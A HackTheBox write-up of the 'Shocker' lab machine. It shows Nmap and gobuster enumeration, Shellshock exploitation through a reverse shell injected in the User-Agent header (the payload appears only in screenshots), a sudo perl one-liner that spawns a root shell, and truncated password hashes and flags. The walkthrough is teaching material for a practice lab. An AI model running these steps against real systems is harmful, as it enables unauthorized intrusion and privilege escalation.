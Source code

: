 [HackTheBox] Shocker
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_shocker/infocard.png.webp)

This is a writeup for HTB VM [Shocker](https://www.hackthebox.eu/home/machines/profile/108). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain

![writeup.overview.killchain](/static/files/posts_htb_shocker/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.18 ((Ubuntu))`: [`exploit_shellshock`](https://github.com/7h3rAm/writeups#exploit_shellshock), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers)  


## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 16:00:23 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/xml/_quick_tcp_nmap.xml 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 145 out of 482 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.11s latency).
Scanned at 2019-11-13 16:00:24 PST for 25s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 16:00:49 2019 -- 1 IP address (1 host up) scanned in 26.24 seconds
```

2\. We try Shellshock related enumeration steps to identify interesting scripts to be used as entrypoint:  
```
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_shocker/screenshot01.png.webp)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_shocker/screenshot02.png.webp)  

3\. The `user.sh` script looks interesting and we manually confirm that it is vulnerable to Shellshock:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_shocker/screenshot03.png.webp)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_shocker/screenshot04.png.webp)  

### Findings
#### Open Ports
```
80/tcp    |  http  |  Apache httpd 2.4.18 ((Ubuntu))
2222/tcp  |  ssh   |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
#### Files
```
http://10.10.10.56/cgi-bin/user.sh
```

## Phase #2: Exploitation
1\. We inject a Bash reverse shell command within the HTTP User-Agent header and get interactive access on the target system:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_shocker/screenshot05.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_shocker/screenshot06.png.webp)  

2\. We can now view the contents of the first flag file, `user.txt`:  

![writeup.exploitation.steps.2.1](/static/files/posts_htb_shocker/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
shelly@Shocker> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker>  
shelly@Shocker> uname
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
shelly@Shocker>  
shelly@Shocker> ifconfig
ens33 Link encap:Ethernet  HWaddr 00:50:56:b9:fe:2c
      inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
      inet6 addr: fe80::250:56ff:feb9:fe2c/64 Scope:Link
      inet6 addr: dead:beef::250:56ff:feb9:fe2c/64 Scope:Global
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:769099 errors:0 dropped:0 overruns:0 frame:0
      TX packets:542509 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:65025189 (65.0 MB)  TX bytes:92873202 (92.8 MB)
shelly@Shocker>  
shelly@Shocker> users
root
shelly
```

## Phase #3: Privilege Escalation
1\. From the output of the `sudo -l`, we know that the user `shelly` can execute `perl` with `sudo` privileges. We use this to execute Bash and get elevated privileges:  
```
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_shocker/screenshot08.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_shocker/screenshot09.png.webp)  

2\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_shocker/screenshot10.png.webp)  

## Loot
### Hashes
```
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQd........................
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba........................
```
### Flags
```
/home/shelly/user.txt: 2ec24e11320026d1e70ff...........
/root/root.txt: 52c2715605d70c76190305..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/108>  
* <https://www.youtube.com/watch?v=IBlTdguhgfY>  
* <https://xd3m0n.xyz/htb_shocker/>  
